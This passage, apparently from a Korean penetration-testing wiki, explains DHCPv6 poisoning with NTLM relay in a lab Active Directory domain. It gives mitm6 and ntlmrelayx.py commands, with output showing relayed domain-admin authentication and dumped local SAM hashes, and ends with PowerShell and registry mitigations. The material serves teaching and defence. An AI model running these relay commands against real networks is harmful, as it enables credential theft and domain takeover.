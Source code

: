 타겟이 `/wpad.dat` 파일을 공격자 서버에게 요청하고, 공격자는 프록시 서버 주소에 공격자 서버 주소가 들어간 WPAD 파일을 반환한다. 이 WPAD 파일을 가지고 설정을 마친 타겟 호스트는 프록시를 사용할 때마다 공격자 서버로 프록시 계정 정보가 담긴 Net-NTLMv1/v2 계정 정보를 전송한다.&#x20;

위 실습에서는 프록시 계정 정보에 도메인 어드민 정보가 담겨 있었다. 그리고 이를 도메인 컨트롤러의 LDAPS 서비스에 릴레이 했다.&#x20;

`ldaps://192.168.40.150 as CHOI/DA SUCCEED` 메시지에서 보이듯,  da@choi.local 유저로 성공적으로 도메인 컨트롤러의 LDAPS 서비스에 인증을 했고, 이를 이용해 액티브 디렉토리 LDAP 데이터를 모두 빼내올 수 있었다.&#x20;



### DHCPv6 포이즈닝 + NTLM 릴레이 - SMB&#x20;

이번에는 SMB로 릴레이를 해본다. SMB의 경우 SMB Signing 여부에 따라 공격이 성공할 수도 있고 실패할 수도 있다. 또한, 타겟 호스트에서 어떤 유저가 프록시를 이용하는가도 중요하다.&#x20;

1. 먼저 DHCPv6 서버를 실행한다&#x20;

```
mitm6 -d choi.local -hw wkstn01.choi.local
```

2. 이후 SMB Signing 이 없는 서버로 릴레이 공격을 실행한다.&#x20;

```
ntlmrelayx.py -6 -wh xfr.choi.local -t smb://192.168.40.150 -smb2support 

[*] HTTPD(80): Authenticating against smb://192.168.40.150 as CHOI/DA SUCCEED
[*] Target system bootKey: 0x37b7fe1178c20af620c25feb531fbe0d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### 대응 방안&#x20;

NTLM 릴레이 대응 방안에 관련해서는 [ntlm-relay](ntlm-relay/ "mention")페이지를 참고한다. 이 페이지에서는 DHCPv6 포이즈닝 대응 방안에 대해서 알아본다.&#x20;

대응 방안은 크게 네트워크 기반, 호스트 기반이 있다. DHCPv6 포이즈닝의 경우 네트워크 기반의 대응 방안이 가장 중요하다. 호스트 기반의 대응 방안은 있긴 있으나, 여러가지 문제가 발생할 수 있기 때문에 많은 테스트를 거쳐야한다.&#x20;

#### 호스트 기반 대응 방안&#x20;

1. 호스트들의 IPv6 자체를 비활성화 시킨다. 이 경우, 특정 윈도우 기능이 작동하지 않거나 써드파티 스크립트/솔루션들이 작동하지 않을 수 있기 때문에 많은 테스트가 필요하다.&#x20;
2. 호스트들의 IPv6 DHCP Client Service 를 비활성화 시킨다. 이 경우, IPv6 자체는 이용할 수 있기 때문에 여러가지 문제가 생길 확률이 적다.&#x20;

* 내부망에서 IPv6 를 사용하지 않는다면 윈도우 호스트들의  DHCPv6 기능을 비활성화 시킨다 (RouterDiscovery + DHCPv6). 파워쉘을 이용하거나, GPO로 다음의 파워쉘을 내려보내 모든 호스트에 적용시킨다 (출처: [https://www.lmgsecurity.com/mitigating-ipv6-poisoning-attacks/](https://www.lmgsecurity.com/mitigating-ipv6-poisoning-attacks/))&#x20;
  *   ```sql
      Set-NetIPInterface -AddressFamily IPv6 -InterfaceIndex $(Get-NetIPInterface -AddressFamily IPv6 | Select-Object -ExpandProperty InterfaceIndex) -RouterDiscovery Disabled -Dhcp Disabled
      ```


* DHCPv6 전체를 비활성화 할 수 없는 경우 DHCP Client가 DHCPv6 메시지를 보낼 수 없도록 설정한다 (DHCP client only).
  * `Set-NetIPInterface <interfacealias> -AddressFamily IPv6 -dhcp disabled`\
    ``
* 내부망에서 IPv6가 사용되어 비활성화 시킬 수 없다면, IPv4 DNS를 IPv6 보다 더 우선순위에 두도록 우선순위를 바꿔준다. 단, 이 경우 MITM6 툴을 이용한 DHCPv6 포이즈닝 공격을 막을 수는 없다.&#x20;
  * ```sql
    New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\TCPIP6\Parameters" -Name "DisabledComponents" -Value 0x20 -PropertyType DWORD -Force
    ```
* 아예 IPv6 자체를 완전히 비활성화 하려면 다음의 파워쉘을 이용한다. 단, 프로덕션에 적용하기 전 충분한 테스트를 거친다. `0xff` = Disable IPv6 Completely&#x20;
  * `Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\Tcpip6\Parameters' -Name DisabledComponents -Value 0xff -Type DWORD`
